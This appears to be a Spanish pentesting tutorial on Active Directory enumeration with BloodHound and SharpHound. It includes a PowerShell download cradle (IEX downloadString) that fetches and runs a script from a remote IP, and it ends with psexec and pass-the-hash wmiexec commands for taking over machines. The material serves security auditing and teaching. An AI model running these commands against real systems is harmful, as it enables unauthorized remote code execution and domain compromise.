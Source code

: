 Bueno esta herramienta es una locura que todo pentester debe de utilizar en una auditoría ya que sirve para enumerar vías potenciales de como conseguir ser Administrador.

Para poder instalarla:

```bash
sudo apt install neo4j bloodhound -y
```

Tendreis que configurarlo antes el bloodhound para poder acceder con usuario y contraseña. Para poder iniciarlo primero ejecutamos `neo4j console` y luego abrimos el `bloodhound`

Una vez que hayais accedido ya al bloodhound seteando la contraseña vamos a utilizar un script en powershell `SharpHound.ps1`, lo podemos buscar en github, el cual servirá para que nos recoja información del sistema y que la almacene en un .zip

Una vez tengamos el script **SharpHound** vamos a conectarnos con una powershell hay varias formas ya sea porque teneis acceso a través de winrm o desde una cmd entablarse una powershell. Subimos el archivo:

```powershell
IEX(New-Object Net.WebClient).downloadString('http://192.168.213.129/SharpHound.ps1')
```

Y luego para hacer que se ejecute el scritp ejecutamos la siguiente sentencia

```powershell
Invoke-BloodHound -CollectionMethod All
```

Después de eso se nos creará un archivo .zip el cual lo transferiremos a nuestra máquina y posteriormente lo importaremos en el bloodhound.

**En el caso de que no tengamos acceso al equipo** podemos ejecutar `bloodhound-python` el cual se instala:

```bash
sudo apt install bloodhound-python o pip3 install bloodhound
```

Una vez tengamos la herramienta bloodhound-python podemos realizar lo mismo pero desde nuestro equipo local ejecutando el siguiente comando:

<img src="/assets/images/Active-Directory/bloodhound.png">

Se nos generan unos archivos `.json` los cuales importaremos a nuestro bloodhound para enumerar

## MANERAS ACCEDER EQUIPOS

- Con contraseña ➡️  `psexec.py s4vicorp.local/Administrador:P@\$\$w0rd\!@192.168.213.135 cmd.exe`

- Pass the hash ➡️  `wmiexec.py s4vicorp.local/mvazquez@192.168.213.135 -hashes hash`
